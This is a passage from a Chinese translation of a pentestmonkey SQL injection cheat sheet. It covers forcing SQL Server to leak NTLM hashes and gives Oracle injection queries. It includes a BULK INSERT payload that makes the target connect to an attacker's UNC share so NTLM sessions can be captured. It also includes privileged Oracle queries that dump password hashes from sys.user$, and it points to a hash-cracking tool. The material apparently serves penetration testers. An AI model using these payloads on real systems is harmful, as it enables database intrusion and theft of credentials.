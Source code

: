 #### 强制SQL Server来得到NTLM哈希

这个攻击能够帮助你得到目标`SQL`服务器的`Window`s密码，不过你的连接很可能会被防火墙拦截。这能作为一个很有用的入侵测试。我们强制SQL服务器连接我们的`WindowsUNC`共享并通过抓包软件(`Cain & Abel`)捕捉`NTLM session`。

#### Bulk insert UNC共享文件 (S)

`bulk insert foo from '\\YOURIPADDRESS\C$\x.txt'`

二、Oracle注入速查表
=============

本文由Yinzo翻译，转载请保留署名。原文地址：[http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)

注：下面的一部分查询只能由admin执行，我会在查询的末尾以"**`-priv`**"标注。

探测版本：

```
SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;
SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;  
SELECT version FROM v$instance;

```

注释：

```
SELECT 1 FROM dual — comment

```

_注: Oracle的SELECT语句必须包含FROM从句，所以当我们并不是真的准备查询一个表的时候，我们必须使用一个假的表名‘dual’_

当前用户：

```
SELECT user FROM dual

```

列出所有用户：

```
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$; — priv

```

列出密码哈希：

```
SELECT name, password, astatus FROM sys.user$ — priv, <= 10g.  astatus能够在acct被锁定的状态下给你反馈
SELECT name,spare4 FROM sys.user$ — priv, 11g

```

密码破解：

[checkpwd](http://www.red-database-security.com/software/checkpwd.html)能够把Oracle8,9,10的基于DES的哈希破解掉
